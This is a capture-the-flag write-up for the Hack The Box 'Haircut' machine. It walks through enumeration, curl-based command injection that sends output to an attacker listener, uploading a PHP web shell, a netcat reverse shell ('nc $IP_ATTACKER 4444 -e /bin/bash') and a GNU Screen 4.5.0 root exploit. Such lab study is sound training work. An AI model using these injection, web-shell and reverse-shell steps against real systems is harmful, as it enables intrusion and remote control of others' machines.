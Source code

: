 # htb-haircut
This is my [Hack the box](https://www.hackthebox.eu/)'s Haircut machine write-up.

## Machine
OS: GNU/Linux

IP: 10.10.10.24

Difficulty: Medium

## Initial enumeration
[Nmap](https://github.com/nmap/nmap) scan on the target:

`nmap -sV -sC -oN haircut.nmap 10.10.10.24`

Flags:
 - `-sV`: Version detection
 - `-sC`: Script scan using the default set of scripts
 - `-oN`: Output in normal nmap format

```
root@kali:~/htb/haircut# nmap -sC -sV -oN haircut.nmap 10.10.10.24
Starting Nmap 7.70 ( https://nmap.org ) at 2020-05-24 13:39 EDT
Nmap scan report for 10.10.10.24
Host is up (0.094s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.55 seconds
```

The web app running on port 80 just displays an image that does not say much.

Initial directories enumeration with the list `common.txt`:

```
root@kali:~/htb/haircut# gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u ${HAIRCUT}
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/24 13:55:47 Starting gobuster
===============================================================
/index.html (Status: 200)
/uploads (Status: 301)
===============================================================
2020/05/24 13:56:26 Finished
===============================================================
```

Interesting, there's an `/uploads` directory. Despite it does not seem very useful now, it may come handy in the future.

After trying with several other lists, which was a quite frustrating process to be honest, finally this one had a more intereseting result:

```
root@kali:~/htb/haircut# gobuster dir --url 10.10.10.24 --wordlist /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.24
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/05/24 15:23:49 Starting gobuster
===============================================================
/uploads (Status: 301)
/exposed.php (Status: 200)
```

The page `/exposed.php` has a text input, and when passing a URL it apparently curls it in the back-end and displays the result on screen. I tried to inject some commands but some symbols/keywords were blocked by the back-end e.g. &, ;, |, python and nc. Curl flags were not blocked, though.

## Exploitation
Checking the man page of `curl`, I thought that by using curl's request body (-d) it could be possible to transmit arbitrary info to a listener. By leveraging backticks, it could be possible to pass the result of a command execution to the listener. Neat!

Set up listener on the attacker machine: 
```
nc -lvp 4444
```

Commands now can be executed from the input of the `/exposed.php` page as follows, and the result of the executed command will be passed as data to the listener:
```
$IP_ATTACKER:4444 -d "`command goes here`"
```
With this we can get the following:
- `whoami` returns `www-data`.
- It is possible to even get the user flag already!: ```cat /home/maria/Desktop/user``` (always check `/home` for getting users)
- ```ls -alh``` returns
```
drwxr-xr-x 3 root     root     4.0K May 19  2017 .
drwxr-xr-x 3 root     root     4.0K May 16  2017 ..
-rwxr-xr-x 1 root     root     114K May 15  2017 bounce.jpg
-rwxr-xr-x 1 root     root     164K May 15  2017 carrie.jpg
-rwxr-xr-x 1 root     root      921 May 15  2017 exposed.php
-rwxr-xr-x 1 root     root      141 May 15  2017 hair.html
-rwxr-xr-x 1 root     root      144 May 15  2017 index.html
-rwxr-xr-x 1 root     root     133K May 15  2017 sea.jpg
-rwxr-xr-x 1 root     root      223 May 15  2017 test.html
drwxr-xr-x 2 www-data www-data 4.0K May 22  2017 uploads
```

It seems `uploads` may be a good place to locate a web shell as `www-data` can write to it. I'm going to use a PHP web shell called `Predator.php` available [here](https://github.com/JohnTroony/php-webshells.git). Note that other much simpler web shells should be enough, I just wanted to check that one out :)

The first step to copy the shell into the target server, is to make the shell "curleable" by exposing it through an HTTP server on the attacker:
```
$ cd php-webshells
$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

And now from `/exposed.php` we curl it sending the file to `/uploads` leveraging `curl -o` (output file):
```
10.10.14.23:8000/Predator.php -o uploads/Predator.php
```

The shell is accessible now from `uploads/Predator.php`! Let's set up a reverse shell using it.

First, set a `nc` listener on the attacker to handle the reverse shell:
```
nc -lvp 4444
```

Then, set up the reverse shell by connecting to the listener from web shell (the web shell has a command execution feature, of course):
```
nc $IP_ATTACKER 4444 -e /bin/bash
```

From here it is immediately possible to run commands on the target from the attacker. Let's spawn a bash shell using Python (this is a very common trick to make it a bit more usable):
```
python3 -c "import pty; pty.spawn('/bin/bash');"
```

By running `LinEnum.sh` (copied to the target machine by setting up a Python http server as before), it can be noticed that there's a suspicious SUID executable in /usr/bin/screen-4.5.0, that turns out to be a vulnerable version that allows to escalate privileges:
```
$ searchsploit screen 4.5.0
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation              | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)        | linux/local/41152.txt
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I'd encourage you to first check the PoC to see what's going on, basically it is possible to create a file owned by root that can be edited by us (www-data in this case) which can be used to do privilege escalation.

When trying to execute the script (first exploit listed) it's noticeable that it needs some manual action to be functional:
- Change the way in which the script creates the .c files. It does is using `cat` and it does not work properly.
- ```gcc``` fails to compile as it does not find `cc1`. By doing `locate cc1` we see this is its location: `/usr/lib/gcc/x86_64-linux-gnu/5`. Adding that path to the PATH env var and retrying did the trick.

After completing these manual actions, a root shell is popped when executing the script:
```
# whoami
whoami
root
```

## Conclusions
I enjoyed a lot this box even though I had to spend a lot of time working on it and it was quite frustrating at times. One lesson learned here was to always run LinEnum.sh if the privilege escalation path is not clear. I was initially trying to collect all the info manually but I was just missing it very badly.

Also, it is important to note that the exploit we got using searchsploit did not work initially but just after it was tweaked a bit. Always check why things don't work and try to fix them manually!
